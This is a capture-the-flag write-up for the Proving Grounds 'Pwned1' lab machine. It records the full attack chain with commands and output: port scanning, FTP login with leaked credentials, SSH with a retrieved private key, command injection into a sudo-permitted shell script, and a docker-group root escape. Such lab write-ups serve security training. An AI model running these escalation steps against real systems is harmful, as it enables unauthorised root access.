 ```yaml
---
layout: default
title: Pwned1
parent: Proving Grounds Play
nav_order: 30
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.213.95
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-13 17:59 EST
Nmap scan report for 192.168.213.95
Host is up (0.056s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
|_  256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.61 seconds

```

# Enumeration

---

## 80 | HTTP

![index](../../../assets/images/ctfs/proving_grounds/pwned1/index.png)

![sings](../../../assets/images/ctfs/proving_grounds/pwned1/sings.png)

### WFUZZ/Gobuster

![robots](../../../assets/images/ctfs/proving_grounds/pwned1/robots.png)

_/nothing_

_/hidden_text_

![dict](../../../assets/images/ctfs/proving_grounds/pwned1/dict.png)

_/hacked_

![login](../../../assets/images/ctfs/proving_grounds/pwned1/login.png)

![creds](../../../assets/images/ctfs/proving_grounds/pwned1/creds.png)

```bash
//	if ($un=='ftpuser' && $pw=='B0ss_Pr!ncesS') {
```

# Exploitation

---

## Logon to FTP with Found Creds

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ftp 192.168.213.95
Connected to 192.168.213.95.
220 (vsFTPd 3.0.3)
Name (192.168.213.95:vagrant): ftpuser
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||12595|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Jul 10  2020 share
226 Directory send OK.
ftp> cd share
250 Directory successfully changed.
ftp> dir
229 Entering Extended Passive Mode (|||5179|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0            2602 Jul 09  2020 id_rsa
-rw-r--r--    1 0        0              75 Jul 09  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
229 Entering Extended Passive Mode (|||37941|)
150 Opening BINARY mode data connection for note.txt (75 bytes).
100% |***********************************************************|    75        1.58 MiB/s    00:00 ETA
226 Transfer complete.
75 bytes received in 00:00 (1.40 KiB/s)
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||15413|)
150 Opening BINARY mode data connection for id_rsa (2602 bytes).
100% |***********************************************************|  2602       26.12 MiB/s    00:00 ETA
226 Transfer complete.
2602 bytes received in 00:00 (46.59 KiB/s)

```

Discover username _ariana_ in _note.txt_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ cat note.txt

Wow you are here

ariana won't happy about this note

sorry ariana :(

```

Authenticate to SSH service on target as _ariana_ with _id_rsa_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/pwned1]
└─$ ssh -i id_rsa ariana@192.168.213.95
The authenticity of host '192.168.213.95 (192.168.213.95)' can't be established.
ED25519 key fingerprint is SHA256:Eu7UdscPxuaxyzophLkeILniUaKCge0R96HjWhAmpyk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.213.95' (ED25519) to the list of known hosts.
Linux pwned 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2+deb10u1 (2020-06-07) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
ariana@pwned:~$ id
uid=1000(ariana) gid=1000(ariana) groups=1000(ariana),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)

```

# Post-Exploitation

---

## Check Sudo Permissions

We have the ability to run _/home/messenger_ as \*selena

```bash
ariana@pwned:/home$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh

```

There is a _messenger.sh_ script in the _/home_ directory.

```bash
ariana@pwned:/home$ cat messenger.sh
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""

```

If we execute the script we should be able to exploit the _$msg 2> /dev/null_ to get a _bash_ shell as _Selena_ since is the user we are running the script as.

```bash
ariana@pwned:/home$ sudo -u selena /home/messenger.sh


Welcome to linux.messenger


ariana:
selena:
ftpuser:

Enter username to send message : selena

Enter message for selena :/bin/bash

Sending message to selena
id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)


```

## Exploit Docker Permissions

As we can see above, Selena is in the _docker_ group.

We can see which Docker images are on this machine

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
selena@pwned:/home$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
privesc             latest              09ae39f0f8fc        3 years ago         88.3MB
<none>              <none>              e13ad046d435        3 years ago         88.3MB
alpine              latest              a24bb4013296        3 years ago         5.57MB
debian              wheezy              10fcec6d95c4        4 years ago         88.3MB

```

According to GTFOBins we can exploit _docker_ to get a root shell

![gtfobins](../../../assets/images/ctfs/proving_grounds/pwned1/gtfobins.png)

```bash
selena@pwned:/home$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
# whoami
root

```
